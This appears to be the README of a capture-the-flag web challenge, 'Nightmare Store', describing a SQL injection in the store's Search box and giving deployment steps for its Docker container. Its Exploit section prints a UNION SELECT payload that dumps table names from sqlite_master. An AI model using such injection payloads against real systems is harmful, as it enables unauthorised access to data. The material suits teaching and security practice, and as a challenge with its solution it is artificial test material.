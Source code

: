 # Name: Nightmare Store

## Description

I don't know what to choose. Wait for a second, I don't even have an account. Bring that flag to me.

The store is at http://141.85.224.108:8081/.

Score: 75

## Vulnerability

Here we have a sql injection vulnerability, the vulnerable box is `Search` from the Store.

## Exploit

We can use a payload like the following:

```
` UNION SELECT GROUP_CONCAT(name,'-'), 2,3,4,5,6,7,8,9, 10,11,12,13,14,15,16,17,18,19 ,20,21,22,23,24,25,26,27,28,29 ,30,31,32,33,34,35,36,37,38,39 ,40,41,42,43,44,45,46,47,48,49 ,50,51,52,53,54,55,56,57,58,59 ,60,61,62,63,64,65,66,67,68,69, 70, 71 FROM sqlite_master --x
```

## Environment

Web server with Python and Sqlite3 support (deployable as a Docker container using files in `deploy/` folder)

## Deploy

Copy `deploy/` folder and run `make run`.
If you need to update the image and container, remove the old container with `make clean` and update the image (and container) using `make`.
It is not possible to update the container without updating the image first.
